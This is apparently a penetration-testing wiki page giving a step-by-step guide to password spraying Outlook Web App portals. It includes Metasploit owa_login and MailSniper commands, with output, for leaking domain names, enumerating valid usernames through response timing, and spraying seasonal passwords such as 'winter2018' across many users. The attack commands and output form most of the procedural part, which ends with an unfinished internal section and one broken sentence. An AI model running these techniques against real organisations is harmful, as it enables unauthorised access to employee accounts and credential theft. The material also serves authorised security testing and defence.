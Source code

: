 # Password spraying

## General approach

Password spraying is a technique to attempt logins using valid usernames and a list of passwords with the purpose of obtaining a set of valid credentials.

This technnique is naturally somewhat unreliable and is also on the edge of opsec if not carefully executed. Password spraying should therebefore be attempted in a very controlled fashion, and across multiple users to avoid lockouts. Password spraying is a technique that falls under [MITRE ATT&CK technique T1110 - Brute force](https://attack.mitre.org/wiki/Technique/T1110).

The technique has certain requirements that must be fulfilled for it to work. It doesn't matter if its performed externally or internally, the principles stay the same. Most of the required elements can be found without too much effort.

### **Requirements**

* An available service to spray to
* Domain name
* Username or e-mail

### **Tools:**

* [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [auxiliary/scanner/http/owa\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login)
* [auxiliary/scanner/http/owa\_ews\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login)

## External password spraying

External password spraying is when we perform the attack from outside a domain. Most enterprises provide their employees a way of accessing e-mail from the internet. Therefore, most organizations have a portal for Outlook Web App \(OWA\). It usually looks something like this:

![](../.gitbook/assets/image%20%2811%29.png)

That means if we can figure out the syntax we can attempt to authenticate with common passwords. However, when spraying passwords beware of lockout tresholds. Many enterprises have a lockout policy after five or ten attempts, but some have lockouts as low as three attemps. There is also usually a treshold for this lockout set around 30 minutes. But mind you, that these are all educated guesses and may vary. So always err on the side of caution when password spraying.

BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

### **Step 1 Finding a service to spray**

OWA portals are typically located at `mail.testlab.local` ,`testlab.local/owa` or similar. Any ADFS integrated portal should in theory work since its all the same AD authentication in the back-end. However, certain tools like MailSniper are built for attacking certain parts of the mail portal, so not all functions may work if its not an OWA. Subdomain enumeration can be very helpful for discovering such portals. Another alternative is Remote Web Access pages, typically located at `testlab.local/RDweb`

### **Step 2 Obtain the domain name**

The Metasploit owa\_login module can not only brute force, but it also has the ability to leak domain names. Note that this will be one attempt to the username if you have a valid one. Metasploit uses NTLM responses to identify the domain name. If you are really lucky, the helpful sysadmins have written the domain name to the OWA page already. Note that in this attempt, you don't necessarily need a valid user.

```text
use auxiliary/scanner/http/owa_login
set rhost <rhost>
set username <username>
set password <password>
exploit

[+] Found target domain: TESTLAB
```

Alternatively, MailSniper can be used to obtain the domain name using response times.

```text
Invoke-DomainHarvestOWA -ExchHostname testlab.local -DomainList c:\temp\domainlist.txt -OutFile potential-domains.txt

[*] Harvesting Domain Name from the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid Domain! Domain:TESTLAB
```

### **Step 3 Obtain a valid username or e-mail address**

We got the domain name, now let's try to enumerate ourselves to a username. If we do not have an e-mail or a username, we need to do more recon to get that. The alternative would be brute forcing ourselves to a username, but that's not always a viable option.

Let's assume for the sake of example we have gotten an e-mail address through LinkedIn, which is not far fetched at all. Side note: check out [theHarvester](https://github.com/laramies/theHarvester). Let's say we find an employee for this organization on LinkedIn. His name is `Bill Long Money` and his e-mail is`bill.money@testlab.biz`

Now there are a number of possible syntaxes for domain users, but most follow one of a few common schemes. Let's apply them to our friend:  
- First letter of first name + entire last name = `bmoney`  
- First letter of first and last name \(could also include middle names\) = `bm`  or  `blm`  
- Prefix \(a character usually\) + first letter of first name + entire last name =  `a-bmoney`  
- Full name = `billmoney` \(less common I believe\)

We can try the different schemes with a domain name. Usually the owa\_login module is able to verify the validity of accounts without a correct password.  Let's try a spray with a randomly guessed password with `bmoney` as username.

```text
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit

[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

We were correct about the username syntax and so we got a valid username. Note that this module uses response time to assess the validity of usernames, so you might get false positives here. It can be worth trying a few usernames you know are invalid to verify whether .

As before we can also use Mailsniper for this task

```text
Invoke-UsernameHarvestOWA -ExchHostname testlab.corp.local -UserList c:\temp\userlist.txt -Domain TESTLAB -OutFile potential-usernames.txt

[*] Now spraying the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid! User:TESTLAB\bmoney
```

### Step 4 Perform password spraying

Now when both a domain name and a user name has been acquired we can perform the actual password spraying. As mentioned before, the it's very important to spray in a controlled manner to prevent lockout. That means to record which users were sprayed, exactly when, what passwords were tried and how many attempts for each user.

```text
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit

[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

Alternatively the spraying can be performed with MailSniper, where the username is entered into `userlist.txt`

```text
Invoke-PasswordSprayOWA -ExchHostname testlab.local -userlist .\userlist.txt -password winter2018

[*] Now spraying the OWA portal at https://testlab.local/owa/

[*] SUCCESS! User:bmoney:winter2018
```

Awesome! We got a valid password!

Now we did this example with one user only, but don't forget that the approach should be to spray a lot of users using generic passwords like winter2018 and hope they stick. The larger the list of users, the greater the chance of success.

## Internal password spraying

Password spraying is however not only something you can do externally to find domain users. It can be very useful if you have internal access but no domain user, or to get the credentials ofr higher privileged users when nothing else is working.

More coming soon!

